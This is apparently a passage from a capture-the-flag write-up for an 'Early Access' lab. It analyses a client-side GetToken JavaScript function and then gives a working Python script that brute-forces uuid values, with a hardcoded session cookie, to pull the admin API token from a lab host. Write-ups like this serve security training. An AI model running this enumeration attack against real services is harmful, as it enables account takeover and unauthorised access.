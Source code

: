 # Early Access
After viewing the code, there is a interesting function `GetToken`
```
function GetToken() {
    var uuid = document.getElementById('uuid');
    var username = document.getElementById('username');
    var api_token = document.getElementById('api_token');
    var output = document.getElementById('output');
    output.innerHTML = '';
    if (username.value == "") {
        output.innerHTML = "Username value cannot be empty!";
        setTimeout(() => {
            document.getElementById('closeAlert');
        }, 2000);
        return;
    }
    xhr.open('POST', '/api/v4/tokens/get');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            api_token.append(this.response['token']);
        }
    };
    data = btoa('{"get_token": "True", "uuid":' + uuid ',"username":' + username + '}');
    xhr.send({
        "data": data
    });
}
```
It sends a `base64` `json` structure passing the `username` and `uuid` which are parameters entered by the client user
We can consider getting the administrator token, but the limitation is that we don’t know its `uuid`
Let's write the brute force crack script
```
#!/usr/bin/python3
import requests, base64, sys
from pwn import log

bar = log.progress("uuid")

target = "http://jobs.amzcorp.local/api/v4/tokens/get"

cookies = {"session": ".eJw9jsFOxDAMRP8lZ4SSOI7jPfETnCsntbUV210p7YoD4t8xEuLoNzOe-QqLTT2u4XLOp76EZVvDJXAfWIsVgArSKdbUejKIIysaQqzOCWkVaClDYZDM2AxL1EFGKmLCCbhFUqiRqGSJhUptjKiYkknNPfJQBBMlIV575hpHRZMMwYc8D51_a2p1MI5py_n40Lsj6yD-FFtNYmycUlrX0qKNUnJmH4OJOnbP6S7bzSOf23nV-Xbqcb6Ox-7KfNzUhXcvOvz8LbzLrv_e8P0DcztSHw.aIxvRg.-Dq4a-wg-j2elumv1KAZ5B7EycQ"}  

headers = {"Content-Type": "application/json"}

for uuid in range(0,1000):
    data = '{"get_token": "True", "uuid": "%d", "username": "admin"}' % uuid
    json = {"data": base64.b64encode(data.encode())}

    request = requests.post(target, headers=headers, cookies=cookies, json=json)
    bar.status(uuid)

    if "Invalid" not in request.text:
        print(request.text.strip())
        bar.success(uuid)
        sys.exit(0)
```
For the session, you can get it from the console